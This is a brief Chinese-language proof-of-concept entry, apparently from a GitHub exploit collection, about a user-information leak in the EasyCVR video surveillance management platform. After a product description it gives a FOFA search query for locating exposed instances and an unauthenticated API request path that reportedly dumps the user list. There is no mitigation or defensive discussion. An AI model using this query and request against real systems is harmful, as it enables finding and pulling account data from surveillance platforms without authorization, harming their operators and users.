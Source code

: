 ## EasyCVR 视频管理平台存在用户信息泄露
EasyCVR 智能视频监控综合管理平台是一种针对大中型用户在跨区域网络化视频监控集中管理领域的安防管理软件。它具备多项功能，包括信息资源管理、设备管理、用户管理、网络管理和安全管理。该平台能够实现监控中心对所有视频监控图像的集中管理，并支持多个品牌设备的联网，确保联网视频监控传输质量，并提供资源统一检索和数据共享的功能。

## fofa
```
title="EasyCVR"
```

## poc
```
/api/v1/userlist?pageindex=0&pagesize=10

```
![image](https://github.com/wy876/POC/assets/139549762/cc8c8dd3-bd7e-49a9-b22f-a6a97215cf6a)
